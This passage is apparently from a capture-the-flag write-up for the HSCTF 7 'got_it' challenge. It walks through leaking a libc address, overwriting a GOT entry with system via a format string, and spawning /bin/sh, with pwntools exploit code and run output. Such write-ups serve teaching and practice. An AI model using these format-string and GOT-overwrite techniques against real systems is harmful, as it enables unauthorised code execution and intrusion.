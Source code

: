 To leak a libc address we just need to use the _read-where->what_ function and then scan for the results.  Above, an unmolested `fgets` GOT entry will provide a libc address.  With that we can use the [libc-database](https://github.com/niklasb/libc-database) to find the version of libc used, e.g.:

```
# libc-database/find fgets b20 | grep -v 386
http://ftp.osuosl.org/pub/ubuntu/pool/main/g/glibc/libc6_2.27-3ubuntu1_amd64.deb (id libc6_2.27-3ubuntu1_amd64)
```

> Yes, I know the challenge description states _This is running on Ubuntu 18.04, with the standard libc._  However, didn't read the description when I started, just downloaded `got_it` and _got_ to it.  Anyway, best to test for yourself. _Доверяй, но проверяй_


### Third Pass: Update GOT, `printf` is now `system`

```python
print('3rd pass...',end='')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline(www64x16fs(baselibc + libc.symbols['system'],binary.got['__isoc99_scanf'],8,3))
p.recvuntil('Unterminated quoted string')
p.send('\n\n')
print(time.time()-t)
```

This is not unlike the first pass, using `www64x16fs` to create a format string, just update the <strike>`scanf`</strike> `printf` GOT entry to point to `system`.

Right after that change however, any deterministic `recvuntil` statements based on the binary where <strike>`scanf`</strike> `printf` is called will usually emit `Unterminated quoted string` (error from `system`, and it's OK).


### Final Pass: Get a shell, get the flag.


```python
print('4th pass...',end='')
p.recvuntil('Give me sumpfink to help me out!\n')
p.sendline("/bin/sh")
p.recvuntil('Unterminated quoted string')
print(time.time()-t)
print("\nYOU'RE IN!!!\n")

p.interactive()
```

On this final pass `/bin/sh` is passed to `fgets` that then is passed to <strike>`scanf`</strike> <strike>`printf`</strike> `system`.

This takes 99 seconds to run, be patient.

Output:

```
# ./exploit.py
[+] Opening connection to pwn.hsctf.com on port 5004: Done
[*] '/pwd/datajerk/hsctf7/got_it/libc-database/db/libc6_2.27-3ubuntu1_amd64.so'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/pwd/datajerk/hsctf7/got_it/got_it'
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```